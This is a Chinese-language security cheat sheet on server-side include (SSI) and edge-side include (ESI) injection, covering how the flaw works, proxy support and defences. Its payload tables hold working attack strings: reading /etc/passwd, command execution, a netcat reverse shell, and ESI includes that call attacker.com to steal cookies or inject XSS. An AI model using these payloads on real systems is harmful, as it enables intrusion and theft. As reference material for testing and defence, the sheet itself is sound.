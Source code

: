 # 服务器端包含注入 (SSI 注入)

> 服务器端包含（SSI）是放置在 HTML 页面中的指令，在服务器端提供页面时进行评估。它们允许您向现有 HTML 页面添加动态生成的内容，而无需通过 CGI 程序或其他动态技术提供整个页面。

## SSI 注入原理

SSI 注入漏洞允许攻击者向 Web 应用程序注入服务器端包含指令。SSI 指令可以包含文件、执行命令或打印环境变量/属性。如果在 SSI 上下文中未对用户输入进行适当清理，攻击者可能利用这些输入操纵服务器端行为，访问敏感信息或执行命令。

### SSI 工作方式

SSI 指令通常采用以下格式：`<!--#directive param="value" -->`。当服务器处理包含这些指令的页面时，它会执行指定的操作，如包含其他文件、执行系统命令或显示环境变量。

### 漏洞成因

1. 用户输入直接嵌入到 SSI 上下文中
2. 未对用户输入进行适当的过滤或转义
3. 服务器配置允许执行 SSI 指令

### 影响

- 任意文件读取
- 远程代码执行
- 敏感信息泄露
- 服务器端请求伪造 (SSRF)
- 跨站脚本 (XSS)

## 目录

* [方法学](#方法学)
* [边缘端包含 (ESI)](#边缘端包含-esi)
* [防御措施](#防御措施)
* [参考资料](#参考资料)

## 方法学

SSI 注入发生在攻击者能够向 Web 应用程序输入服务器端包含指令时。

SSI 格式：`<!--#directive param="value" -->`

| 描述                  | 有效载荷                                   |
| --------------------- | ----------------------------------------- |
| 打印日期              | `<!--#echo var="DATE_LOCAL" -->`         |
| 打印文档名            | `<!--#echo var="DOCUMENT_NAME" -->`      |
| 打印所有变量          | `<!--#printenv -->`                      |
| 设置变量              | `<!--#set var="name" value="Rich" -->`   |
| 包含文件              | `<!--#include file="/etc/passwd" -->`    |
| 包含文件              | `<!--#include virtual="/index.html" -->` |
| 执行命令              | `<!--#exec cmd="ls" -->`                 |
| 反弹shell             | `<!--#exec cmd="mkfifo /tmp/f;nc IP PORT 0</tmp/f\|/bin/bash 1>/tmp/f;rm /tmp/f" -->` |

## 边缘端包含 (ESI)

HTTP 代理无法区分来自上游服务器的真实 ESI 标签和嵌入在 HTTP 响应中的恶意标签。这意味着如果攻击者成功将 ESI 标签注入到 HTTP 响应中，代理将不加质疑地处理并评估它们，假设它们是来自上游服务器的合法标签。

某些代理需要在 Surrogate-Control HTTP 头中指定 ESI 处理。

```ps1
Surrogate-Control: content="ESI/1.0"
```

| 描述                  | 有效载荷                                   |
| --------------------- | ----------------------------------------- |
| 盲检测                | `<esi:include src=http://attacker.com>`  |
| XSS                   | `<esi:include src=http://attacker.com/XSSPAYLOAD.html>` |
| Cookie 窃取           | `<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>` |
| 包含文件              | `<esi:include src="supersecret.txt">` |
| 显示调试信息          | `<esi:debug/>` |
| 添加 HTTP 头          | `<!--esi $add_header('Location','http://attacker.com') -->` |
| 内联片段              | `<esi:inline name="/attack.html" fetchable="yes"><script>prompt('XSS')</script></esi:inline>` |

| 软件                  | 包含文件 | 变量 | Cookie | 需要上游头 | 主机白名单 |
| --------------------- | -------- | ---- | ------ | ---------- | ---------- |
| Squid3               | 是       | 是   | 是     | 是         | 否         |
| Varnish Cache        | 是       | 否   | 否     | 是         | 是         |
| Fastly               | 是       | 否   | 否     | 否         | 是         |
| Akamai ESI Test Server (ETS) | 是 | 是 | 是 | 否   | 否         |
| NodeJS' esi          | 是       | 是   | 是     | 否         | 否         |
| NodeJS' nodesi       | 是       | 否   | 否     | 否         | 可选       |

## 防御措施

### 输入验证
- 对所有用户输入进行严格验证
- 使用白名单验证允许的字符和格式
- 拒绝包含 SSI 指令的输入

### 输出编码
- 在将用户输入输出到页面之前进行适当的 HTML 编码
- 使用上下文相关的编码函数

### 服务器配置
- 禁用不必要的 SSI 功能
- 限制 SSI 指令的使用范围
- 更新服务器软件以修补已知漏洞

### 安全开发实践
- 避免将用户输入直接嵌入到 SSI 上下文中
- 使用模板引擎的安全功能
- 实施内容安全策略 (CSP)

### WAF 规则
- 配置 WAF 检测和阻止 SSI 注入尝试
- 监控和记录可疑活动

## 参考资料

* [超越 XSS：边缘端包含注入 - Louis Dion-Marcil - 2018年4月3日](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [DEF CON 26 - 边缘端包含注入：滥用缓存服务器进行 SSRF - ldionmarcil - 2018年10月23日](https://www.youtube.com/watch?v=VUZGZnpSg8I)
* [ESI 注入第二部分：滥用特定实现 - Philippe Arteau - 2019年5月2日](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [利用服务器端包含注入 - n00py - 2017年8月15日](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)
* [服务器端包含/边缘端包含注入 - HackTricks - 2024年7月19日](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection)
* [服务器端包含(SSI)注入 - Weilin Zhong, Nsrav - 2019年12月4日](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
